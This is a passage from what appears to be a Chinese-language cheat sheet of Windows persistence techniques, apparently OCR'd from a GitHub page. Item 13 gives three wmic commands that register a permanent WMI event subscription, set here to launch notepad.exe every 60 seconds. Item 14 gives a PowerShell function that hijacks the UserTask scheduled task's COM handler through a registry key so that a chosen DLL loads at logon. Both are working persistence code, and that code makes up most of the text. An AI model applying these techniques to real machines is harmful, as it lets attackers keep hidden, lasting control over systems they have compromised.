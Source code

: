 管理员执行：

```
mofcomp test.mof
```

##### 13、[wmi](https://3gstudent.github.io/Study-Notes-of-WMI-Persistence-using-wmic.exe)

每隔60秒执行一次notepad.exe

```ABAP
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"

wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```

##### 14、[Userland Persistence With Scheduled Tasks](https://3gstudent.github.io/Userland-registry-hijacking)

劫持计划任务UserTask，在系统启动时加载dll

```c#
function Invoke-ScheduledTaskComHandlerUserTask
{
[CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')]
Param (
[Parameter(Mandatory = $True)]
[ValidateNotNullOrEmpty()]
[String]
$Command,

[Switch]
$Force
)
$ScheduledTaskCommandPath = "HKCU:\Software\Classes\CLSID\{58fb76b9-ac85-4e55-ac04-427593b1d060}\InprocServer32"
if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){
New-Item $ScheduledTaskCommandPath -Force |
New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null
}else{
Write-Verbose "Key already exists, consider using -Force"
exit
}

if (Test-Path $ScheduledTaskCommandPath) {
Write-Verbose "Created registry entries to hijack the UserTask"
}else{
Write-Warning "Failed to create registry key, exiting"
exit
} 
}
Invoke-ScheduledTaskComHandlerUserTask -Command "C:\test\testmsg.dll" -Verbose
```
